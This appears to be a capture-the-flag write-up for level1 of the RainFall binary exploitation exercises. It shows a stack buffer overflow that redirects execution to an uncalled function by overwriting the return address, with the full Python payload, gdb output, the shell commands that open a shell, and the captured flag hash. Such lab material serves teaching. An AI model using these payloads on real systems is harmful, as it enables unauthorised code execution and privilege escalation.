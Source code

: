 - now we need to change this address of BBBB with a valid address that will help us reach the end goal which is accessing the shell
- what we need exists in the function RUN but its not called, 
- lets redirect the execution of the program to the function
- by __changing__ the __EIP__ in the main __from return__ address __to run__ address  by replacing BBBB with the __little endian__ format of the __run functiona address__
- run address : `0x08048444`
- run address in little endian : `\x44\x84\x04\x08`
- run address in little endian with python : `print "\x08\x04\x84\x44"[::-1]`
```c
(gdb) run <<< $(python -c 'print "A" * 76 + "\x08\x04\x84\x44"[::-1] ')
Starting program: /home/user/level1/level1 <<< $(python -c 'print "A" * 76 + "\x08\x04\x84\x44"[::-1] ')
Good... Wait what?

Program received signal SIGSEGV, Segmentation fault.
Error while running hook_stop:
No function contains program counter for selected frame.
0x00000000 in ?? ()
```
- run function has been executed
---
### Solution :

```shell
level1@RainFall:~$ (python -c 'print "A" * 76 + "\x08\x04\x84\x44"[::-1] ') > /tmp/ok
level1@RainFall:~$ cat /tmp/ok | ./level1 
Good... Wait what?
Segmentation fault (core dumped)
level1@RainFall:~$ 
```
- segfault error because the stdin is closed right away after the execution
- to avoid that we add a `-` after cat to keep the stdin open
```shell
level1@RainFall:~$ cat /tmp/ok - | ./level1 
Good... Wait what?
whoami
level2
pwd
/home/user/level1
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
we got the flag : `53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77`

---

### Ressources :
- __[Buffer overflow, explained well honestly (VIDEO)](https://youtu.be/btkuAEbcQ80)__

- [Buffer Overflow Examples, Overwriting a function pointer - protostar stack3 (ARTICLE)](https://0xrick.github.io/binary-exploitation/bof3/)
- [Call function in buffer overflow (stackoverflow)(ARTICLE)](https://stackoverflow.com/questions/30419081/call-function-in-buffer-overflow)
- [What is buffer overflow? (ARTICLE)](https://www.cloudflare.com/learning/security/threats/buffer-overflow/)
- [what is buffer overflow (VIDEO)](https://youtu.be/1S0aBV-Waeo)
- [Writing a Simple Buffer Overflow Exploit (VIDEO)](https://youtu.be/oS2O75H57qU)
